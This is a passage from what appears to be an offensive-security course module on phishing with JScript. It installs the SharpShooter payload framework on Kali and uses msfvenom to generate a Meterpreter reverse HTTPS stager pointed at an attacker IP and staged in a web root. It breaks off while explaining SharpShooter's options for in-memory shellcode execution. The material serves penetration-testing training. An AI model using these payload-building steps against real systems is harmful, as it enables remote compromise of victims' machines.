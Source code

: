 SharpShooter is "a payload creation framework for the retrieval and execution of arbitrary C# source code" and automates part of the process discussed in this module. As with any automated tool, it is vital that we understand how it works, especially when it comes to bypassing security software and mitigations that will be present in most organizations.

SharpShooter is written in Python 2, which reached its end-of-life on January 1, 2020. Although Kali Linux still provides support for Python 2, this support is not guaranteed in the future and may be removed without notice. Python 2 is no longer receiving security updates or bug fixes, and many libraries have dropped support for it.

SharpShooter is capable of evading various types of security software, but that topic is outside the scope of this Module.

We can install SharpShooter on Kali with **git clone** and Python2 **pip**[2](https://portal.offsec.com/courses/pen-300-9502/learning/phishing-with-jscript-188661/phishing-with-jscript-188714#fn-local_id_91-2), as shown:

```
kali@kali:~$ cd /opt/

kali@kali:/opt$ sudo curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py

kali@kali:/opt$ sudo python2 ./get-pip.py

kali@kali:/opt$ sudo git clone https://github.com/mdsecactivebreach/SharpShooter.git
Cloning into 'SharpShooter'...

kali@kali:/opt$ cd SharpShooter/

kali@kali:/opt/SharpShooter$ sudo python2 -m pip install --upgrade setuptools pip==20.3.4

kali@kali:/opt/SharpShooter$ sudo pip2 install -r requirements.txt
```

> Listing 36 - Installing SharpShooter on Kali Linux

If confronted with a message that pip cannot be found, install the package using **sudo apt install python-pip**

With SharpShooter installed, let's try to replicate what we did manually in this Module: creating a shellcode runner with Jscript by leveraging DotNetToJscript.

First, we'll use **msfvenom** to generate our Meterpreter reverse stager and write the _raw_ output format to a file.

```
kali@kali:/opt/SharpShooter$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f raw -o /var/www/html/shell.txt
...
Payload size: 716 bytes
Saved as: /var/www/html/shell.txt
```

> Listing 37 - Creating a raw Meterpreter staged payload

Next, we'll invoke **SharpShooter.py** while supplying a number of parameters, as shown in Listing 38. The first **--payload js**, will specify a Jscript output format. The next parameter, **--dotnetver**, sets the .NET framework version to target. The **--stageless** parameter specifies in-memory execution of the Meterpreter shellcode.
